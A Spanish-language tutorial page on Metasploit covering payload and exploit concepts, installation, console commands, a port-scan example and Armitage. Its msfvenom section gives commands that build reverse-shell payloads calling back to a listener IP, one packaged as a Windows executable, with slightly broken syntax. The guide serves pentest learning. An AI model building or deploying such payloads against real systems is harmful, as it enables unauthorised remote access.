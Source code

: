 ```yaml
---
title: Metasploit
author: conde
date: 2022-08-16 11:16:00 -03000 
categories: [Hacking, Pentesting]
tags: [Pentesting, guide]
math: true
mermaid: true
---
```


## Índice
- [Definición](#definición)
- [Conceptos](#conceptos)
- [Uso de metasploit](#uso-de-metasploit)
  - [Instalación](#instalación)
  - [Parámetros](#parametros)
  - [Msfvenom](#msfvenom)
  - [Ejemplo de uso](#ejemplo-de-uso)
  - [Armitage](#armitage)
    - [Instalación](#instalación)

### Definición
Metasploit es un proyecto de **código abierto** para la seguridad informática, que proporciona información acerca de vulnerabilidades de seguridad
y ayuda en **Pentesting**. Para usar esta herramienta no necesitas tener conocimientos de lo que hace, ya que te lo dan **todo automatizado**, de 
forma que solo hay que hacer unos pequeños ajustes. En mi opinión no me gusta utilizarlo, pero un hacker, debe saber utilizar todas las herramientas 
posibles, por si algún día le es necesario. 

### Conceptos 
Antes de utilizarlo, es importante tener unos conceptos claros, estos son: 
- **Payload** ➜ Un payload es la parte del código del malware que realiza la acción maliciosa en el sistema.
- **Exploit** ➜ Es cualquier ataque que aprovecha las vulnerabilidades de las aplicaciones, las redes, los sistemas operativos o el hardware.
- **Handler** ➜ Handler es un listener (Similiar a netcat).
- **Meterpreter** ➜ Este concepto sale mucho en metasploit, este es un tipo de payload que te otorga un shell super potente.

Dentro de metasploit hay una serie de directorios importantes que son: 
- **El directorio principal (En Kali, Parrot)** 
  - */usr/share/metasploit-framework* 
- **El directorio principal (En Arch)** 
  - */opt/metasploit*

Dentro del podemos encontrar un directorio muy importante 
- **/opt/metasploit/modules** ➜ Aqui se encuentra los payloads.
- **/opt/metasploit/modules/payloads** ➜ Aqui dentro tenemos tres directorios super importantes.

Los tres directorios importantes son: 
- **/opt/metasploit/modules/payloads/singles** ➜ Estes son payloads autocontenidos, esto quiere decir que hace lo que indica (Crea usuarios, shell, etc).
- **/opt/metasploit/modules/payloads/stagers** ➜ Este tipo de payload necesita un stages para funcionar (Estos establecen la conexión).
- **/opt/metasploit/modules/payloads/stages** ➜ Este se deposita cuando el stagers realizan la conexión, y este realiza acciones más avanzadas, el más conocido es meterpreter. 

### Uso de Metasploit
#### Instalación 
Para instalar metasploit solo es necesario ejecutar el siguiente comando: 

En debian y derivadas
```bash
apt-get install metasploit -y 
```
En arch y derivadas 
```bash
pacman -S metasploit --noconfirm
```

Una vez instalado para lanzarlo usamos: 
```bash
msfconsole
```

#### Parametros
En esta ocasión no parametros, sino las funcionalidades que incluye dentro para usar, algunas son: 
- **connect** ➜ Nos permite conectarnos a un puerto que este a la escucha 
- **search** ➜ Nos permite buscar exploit del servicio indicado 
- **use** ➜ Usamos el exploit indicado que obtuvimos haciendo el search 
- **back** ➜ Nos permite salir del exploit 
- **sessions** ➜ Vemos las sesiones actualies
- **show options** ➜ Vemos las opciones básicas del exploit 
- **show advanced** ➜ Vemos las opciones avanzadas del exploit 
- **set** ➜ Nos permite modificar el valor de las variables que usa 
- **show payloads** ➜ Nos permite ver los payloads que utiliza ese exploit 
- **set payload** ➜ Indicamos el payload a usar 
- **exploit** ➜ Lanzamos el ataque 
- **info** ➜ Muestra información sobre el exploit, payload, etc

#### Msfvenom 
Msfvenom, es una herramienta que nos permite crear payloads personalizados. Este forma parte de Metasploit, pero se puede usar como un 
comando cualquiera y por defecto es instalado junto a metasploit. Veamos algún ejemplo: 
- **-p** ➜ indicamos el payload 
- **lhost y lport** ➜ Variables que vamos a configurar 
- **-f** ➜ Tipo de extensión 
- **-o** ➜ Almacenar en fichero 

Generar un payload para otorgar una shell con python
```bash
msfvenom -p /python/shell_reverse_tcp lhost=192.168.20.123 lport 888  
```
Generar un payload para otorgar una shell con python para windows
```bash
msfvenom -p /python/shell_reverse_tcp lhost=192.168.20.123 lport 888 -f exe -o shell.exe
```

#### Ejemplo de uso
Ahora veremos un ejemplo de uso de metasploit, para realizar un escaneo de puertos. 
1. Comezamos lanzando metasploit 
```bash
msfconsole
```
2. Buscamos el exploit de escaneo de puertos
```bash
search portscan 
```
3. Usamos el exploit que escojamos 
```bash
use /auxiliary/scanner/portscan/tcp 
```
4. Vemos las opciones del exploit 
```bash
show options 
```
5. Configuramos las variables necesarios (Yes)
```bash
set rhosts 192.168.20.123 
```
6. Lo lanzamos 
```bash
exploit 
```

#### Armitage 
Armitage, es una inferfaz gráfica para utilizar metasploit de una forma más fácil. 

##### Instalación
En debian y derivadas. 

```bash
apt-get install armitage -y 
```
En arch y derivadas 

```bash
pacman -S armitage --noconfirm 
```
